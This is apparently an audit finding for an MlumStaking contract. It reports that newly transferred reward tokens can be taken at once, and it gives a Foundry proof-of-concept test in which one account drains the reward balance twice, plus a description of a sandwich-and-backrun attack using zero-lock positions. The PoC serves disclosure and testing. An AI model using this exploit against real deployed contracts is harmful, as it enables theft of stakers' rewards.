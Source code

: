 1. All new `rewardToken` transfer can be immediately stolen.

Here is a POC demonstrating how Alice takes the entire balance of `rewardToken` **twice**. It can be placed in `MlumStaking.t.sol`:

```solidity
function testC1() public {
    _stakingToken.mint(ALICE, 10 ether);

    vm.startPrank(ALICE);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.createPosition(1 ether, 0);
    vm.stopPrank();

    IMlumStaking.StakingPosition memory pos = _pool.getStakingPosition(1);

    console.log("Rewards after create", _pool.pendingRewards(1));
    console.log("Rewards balance after create", _rewardToken.balanceOf(ALICE));
    console.log(pos.amountWithMultiplier);
    console.log(pos.rewardDebt);
    console.log(_pool._accRewardsPerShare());
    

    _rewardToken.mint(address(_pool), 100000e6);
    console.log("Rewards balance in staking", _rewardToken.balanceOf(address(_pool)));

    vm.prank(ALICE);
    _pool.withdrawFromPosition(1, 1 ether);

    console.log("Rewards balance after withdraw", _rewardToken.balanceOf(ALICE));
    console.log("RRewards balance in staking after", _rewardToken.balanceOf(address(_pool)));
    console.log(_pool._accRewardsPerShare());
    // =======================
    vm.startPrank(ALICE);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.createPosition(1 ether, 0);
    vm.stopPrank();
    console.log(_pool._accRewardsPerShare());

    _rewardToken.mint(address(_pool), 200e6);
    console.log("Rewards balance in staking", _rewardToken.balanceOf(address(_pool)));

    vm.prank(ALICE);
    _pool.withdrawFromPosition(2, 1 ether);
    console.log("Rewards balance after withdraw", _rewardToken.balanceOf(ALICE));
    console.log("RRewards balance in staking after", _rewardToken.balanceOf(address(_pool)));
    console.log(_pool._accRewardsPerShare());

}
```

Another possible scenario is when there are already some positions, everyone can sandwich the transferring of `rewardToken`, creating positions with 0 `lockDuration` and any satisfying amount of `stakedToken`, then backrun the transfer by withdraw and close the position taking the difference of previous `_accRewardsPerShare` and next one updated in `_updatePool`. This way no one will be incentivized to lock his tokens for any amount of time, when he can simply harvest the position immediately.
